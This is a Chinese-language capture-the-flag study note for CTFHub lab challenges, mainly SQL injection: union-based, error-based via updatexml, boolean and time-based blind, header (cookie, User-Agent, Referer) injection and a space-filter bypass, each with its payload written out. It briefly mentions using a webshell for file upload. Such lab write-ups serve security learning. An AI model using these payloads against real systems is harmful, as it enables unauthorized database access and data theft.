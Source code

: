 # CTFHUB 技能树笔记

## SQL 注入

### 1. 整数型注入
- **判断字段数**：输入 `1 order by {val}`，逐步测试确定查询的字段数量。
  ![sql 1](/ctfhub/images/sql1.png)
- **查询数据库**：构造 `-1 union select 1,group_concat(schema_name) from information_schema.schemata`，显示所有数据库。
  ![sql 2](/ctfhub/images/sql2.png)
- **查询表**：构造 `-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'`，显示 `sqli` 数据库中的表。
  ![sql 3](/ctfhub/images/sql3.png)
- **查询字段**：构造 `-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'`，显示 `flag` 表的字段。
  ![sql 4](/ctfhub/images/sql4.png)
- **获取 Flag**：构造 `-1 union select 1,group_concat(flag) from sqli.flag`，获取 `flag`。
  ![sql 5](/ctfhub/images/sql5.png)

### 2. 字符型注入
- **判断字段数**：输入 `1' order by {val} #`，测试查询的字段数量。
  ![sql 6](/ctfhub/images/sql6.png)
- **查询数据库**：构造 `-1' union select 1,group_concat(schema_name) from information_schema.schemata #`，显示所有数据库。
  ![sql 7](/ctfhub/images/sql7.png)
- **查询表**：构造 `-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' #`，显示 `sqli` 数据库中的表。
  ![sql 8](/ctfhub/images/sql8.png)
- **查询字段**：构造 `-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag' #`，显示 `flag` 表的字段。
  ![sql 9](/ctfhub/images/sql9.png)
- **获取 Flag**：构造 `-1' union select 1,group_concat(flag) from sqli.flag #`，获取 `flag`。
  ![sql 10](/ctfhub/images/sql10.png)

### 3. 报错注入
- **触发报错**：输入 `1' asdsad`，观察输出报错信息。
  ![sql 11](/ctfhub/images/sql11.png)
- **查询数据库**：构造 `1 or updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 3,1),0x7e),1)`，通过报错发现 `sqli` 数据库。
- **查询表**：构造 `1 or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x7e),1)`，看到 `flag` 表。
- **查询字段**：构造 `1 or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli' and table_name='flag' limit 0,1),0x7e),1)`，看到 `flag` 字段。
  ![sql 12](/ctfhub/images/sql12.png)
- **获取 Flag**：构造 `1 or updatexml(1,concat(0x7e,(select flag from sqli.flag limit 0,1),0x7e),1)`，找到 `flag`。
  ![sql 13](/ctfhub/images/sql13.png)

### 4. 布尔盲注
- **测试闭合**：构造 `1 and 1=1 #`、`1' and 1=1 #`、`1" and 1=1 #`、`1') and 1=1 #`、`1") and 1=1 #` 等，多次注入测试。
- **判断逻辑**：输入 `a`、`null`、`true`、`false` 等，发现只有 `true`、`1`、`2` 返回正常，推测后端代码为 `if(xxx)` 的形式，需返回 `true`。
- **构造语句**：使用 `if(length(select database())=1,1,0)`，结合脚本实现。
  ![sql 14](/ctfhub/images/sql14.png)
- **脚本参考**：[布尔盲注脚本](/ctfhub/geturl.py)

### 5. 时间盲注
- **检测注入**：输入 `1 and sleep(10)`，一发入魂，确认存在时间盲注。
  ![sql 15](/ctfhub/images/sql15.png)
- **使用工具**：结合 `sqlmap` 进行自动化测试。
  ![sql 16](/ctfhub/images/sql16.png)

### 6. MySQL 结构
- **特点**：MySQL 的 `information_schema` 库方便获取数据库、表、字段信息，利于注入。
- **找到注入点**：
  ![sql 17](/ctfhub/images/sql17.png)
- **获取 Flag**：
  ![sql 18](/ctfhub/images/sql18.jpeg)

### 7. Cookie 注入
- **测试注入**：
  ![sql 19](/ctfhub/images/sql19.jpeg)
- **抓包分析**：使用 Burp Suite 抓包。
  ![sql 20](/ctfhub/images/sql20.png)
- **找到闭合**：
  ![sql 21](/ctfhub/images/sql21.png)
- **获取 Flag**：
  ![sql 22](/ctfhub/images/sql22.png)

### 8. UA 注入
- **测试注入点**：将请求丢进 Burp Suite，修改 User-Agent 头部，测试注入点。
  ![sql 23](/ctfhub/images/sql23.png)
- **获取 Flag**：确认注入点后直接获取 `flag`。
  ![sql 24](/ctfhub/images/sql24.png)

### 9. Referer 注入
- **添加头部**：请求中无 Referer，手动添加并测试注入。
  ![sql 25](/ctfhub/images/sql25.png)
- **获取 Flag**：
  ![sql 26](/ctfhub/images/sql26.png)

### 10. 过滤空格
- **绕过方法**：用 `/**/` 代替空格。
  ![sql 27](/ctfhub/images/sql27.png)
- **获取 Flag**：
  ![sql 28](/ctfhub/images/sql28.png)

## XSS
CTFHUB的XSS题目很简单，找XSS平台，检查前端页面，注意构造闭合即可轻松通过，略。

## 文件上传
准备好Webshell和蚁剑，直接打通，略。

## RCE
简单文件包含和RCE，略。

## SSRF
略。
